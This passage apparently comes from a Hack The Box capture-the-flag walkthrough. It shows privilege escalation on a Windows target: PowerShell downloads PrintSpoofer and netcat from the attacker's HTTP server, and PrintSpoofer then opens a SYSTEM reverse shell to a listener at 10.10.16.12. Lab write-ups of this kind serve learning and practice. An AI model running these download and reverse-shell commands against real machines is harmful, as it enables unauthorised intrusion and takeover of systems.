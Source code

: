{% endraw %}

<br />
Start a webserver to serve the executable.

{% raw %}
```bash
┌──(kali㉿kali)-[~/Documents/htb/remote]
└─$ python3 -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```
{% endraw %}

<br />
Use Powershell to transfer the exploit to the victim machine.

{% raw %}
```bash
PS C:\Windows\Temp> (New-Object System.Net.WebClient).DownloadFile("http://10.10.16.12:8000/PrintSpoofer64.exe", "C:\Windows\Temp\PrintSpoofer64.exe")
```
{% endraw %}

<br />
Copy the nc.exe into the working folder.  Then, use Powershell to transfer it to the local machine.

{% raw %}
```bash
PS C:\Windows\Temp> (New-Object System.Net.WebClient).DownloadFile("http://10.10.16.12:8000/nc.exe", "C:\Windows\Temp\nc.exe")
```
{% endraw %}

<br />
Start a second listener.

{% raw %}
```bash
┌──(kali㉿kali)-[~/Documents/htb/remote]
└─$ nc -nlvp 4444                                            
listening on [any] 4444 ...
```
{% endraw %}

<br />
Execute the PrintSpoofer executable and use the netcat executable to create a reverse shell with the listener that was just started.

{% raw %}
```bash
PS C:\Windows\Temp> C:\Windows\Temp\PrintSpoofer64.exe -c "c:\Windows\Temp\nc.exe 10.10.16.12 4444 -e cmd"
[+] Found privilege: SeImpersonatePrivilege
[+] Named pipe listening...
[+] CreateProcessAsUser() OK
```
{% endraw %}
